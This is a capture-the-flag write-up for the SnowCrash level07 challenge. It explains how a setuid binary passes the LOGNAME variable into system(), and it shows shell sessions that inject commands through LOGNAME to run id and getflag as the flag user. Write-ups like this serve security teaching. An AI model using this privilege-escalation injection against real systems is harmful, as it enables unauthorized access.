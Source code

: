 # writeup level07


In this level again we hace suid(setuid) file 
```
level07@SnowCrash:~$ ls -la
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```
After  reverse engineering the  file level07



![BinaryNinja](https://cdn.discordapp.com/attachments/1164485225875783701/1184497717511204874/image.png?ex=658c3076&is=6579bb76&hm=8e2726c399fd8084a94d327ac6f002d887f21a8d4a5cf4c8713ac14c7630e622&)


# Explain the code:
`asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));`: this line allocates memory for the string "/bin/echo %s " where %s is a placeholder that will be replaced by the value obtained from the LOGNAME environment variable using getenv("LOGNAME"). and then in the next line `return system(var_1c);` executes the command stored in var_1c using the system function. The command executed will be /bin/echo <value of LOGNAME>

source:
[asprintf](https://linux.die.net/man/3/asprintf) 

# Exploit 

To exploiting this is easy, we can simply inject the `LOGNAME` variable with the desired value. In this case, we can perform command injection, enabling us to insert and execute commands as needed.

So the exploit is : 

```
level07@SnowCrash:~$ export LOGNAME="bla; ls"
level07@SnowCrash:~$ ./level07 
bla
ls: cannot open directory .: Permission denied
level07@SnowCrash:~$ export LOGNAME="bla; id"
level07@SnowCrash:~$ ./level07 
bla
uid=3007(flag07) gid=2007(level07) groups=3007(flag07),100(users),2007(level07)
level07@SnowCrash:~$ export LOGNAME="bla; getflag"
level07@SnowCrash:~$ ./level07 
bla
Check flag.Here is your token : #######################
```

